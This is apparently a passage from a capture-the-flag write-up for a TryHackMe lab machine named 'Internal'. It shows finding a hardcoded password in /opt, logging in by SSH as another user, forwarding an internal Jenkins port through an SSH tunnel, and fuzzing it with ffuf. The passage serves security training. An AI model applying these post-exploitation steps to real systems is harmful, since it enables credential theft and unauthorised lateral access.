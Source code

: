 Although this leads to nowhere, but this is a finding that the username and password are hardcoded.

Next thing to look is the 'opt' directory, which in this case do give us information.

```
www-data@internal:/opt$ ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

There are 2 ways to login to this user. Either switching user with the command `su aubreanna` or using SSH to login to the user, which is better as the reverse shell is slow and laggy.

I used SSH to login to the user Aubreanna.

```
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

The IP address 172.17.0.2, is of the docker running on the server. It can be confirmed by using the `ifconfig` command.

So now somehow we have to connect to this Docker machine. This is where SSH Tunneling comes into play. SSH tunneling is used to privately transfer data over an unsafe network. So what is
being done here is that I am hosting the Jekins service hosted on the docker port 8080 on my machine as localhost at port 8080 (any port could have been used).

```
┌──(kali㉿kali)-[~/Desktop/THM/Internal]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.200.223
aubreanna@10.10.200.223's password: 
```

This is how SSH Tunneling is done.

<img src=https://github.com/user-attachments/assets/beb32124-5d81-4bdb-877e-15d81fc9a9c7>

This screenshot confirms that the Jenkins can be accessed at my machine. Also, I tried to fuzz the service to find for anything interesting.

```
┌──(kali㉿kali)-[~/Desktop/THM/Internal]
└─$ ffuf -u http://127.0.0.1:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt -fw 335


assets                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 620ms]
favicon.ico             [Status: 200, Size: 17542, Words: 345, Lines: 2, Duration: 437ms]
git                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 574ms]
login                   [Status: 200, Size: 2005, Words: 198, Lines: 11, Duration: 612ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 484ms]
robots.txt              [Status: 200, Size: 71, Words: 11, Lines: 3, Duration: 622ms]
:: Progress: [4614/4614] :: Job [1/1] :: 69 req/sec :: Duration: [0:01:06] :: Errors: 0 ::
```
